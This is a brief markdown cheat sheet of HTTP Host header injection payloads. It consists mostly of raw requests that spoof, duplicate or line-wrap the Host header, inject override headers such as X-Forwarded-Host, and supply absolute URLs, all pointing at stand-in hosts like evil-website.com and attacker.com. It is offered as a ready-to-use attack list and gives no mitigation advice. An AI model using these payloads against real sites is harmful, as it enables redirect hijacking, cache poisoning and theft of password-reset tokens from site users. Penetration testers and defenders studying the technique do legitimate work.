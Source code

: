 # Host Header Injection


1. Change the host header

```
GET /index.php HTTP/1.1
Host: evil-website.com
...

```

1. Duplicating the host header

```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
Host: evil-website.com
...

```

1. Add line wrapping

```
GET /index.php HTTP/1.1
 Host: vulnerable-website.com
Host: evil-website.com
...

```

1. Add host override headers

```
X-Forwarded-For: evil-website.com
X-Forwarded-Host: evil-website.com
X-Client-IP: evil-website.com
X-Remote-IP: evil-website.com
X-Remote-Addr: evil-website.com
X-Host: evil-website.com

```

How to use? In this case im using "X-Forwarded-For : evil.com"

```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For : evil-website.com
...

```

1. Supply an absolute URL

```jsx
GET https://vulnerable-website.com/ HTTP/1.1
Host: evil-website.com
...
```

```jsx
Location: http://www.attacker.com/login.php
X-Forwarded-Host: www.attacker.com
```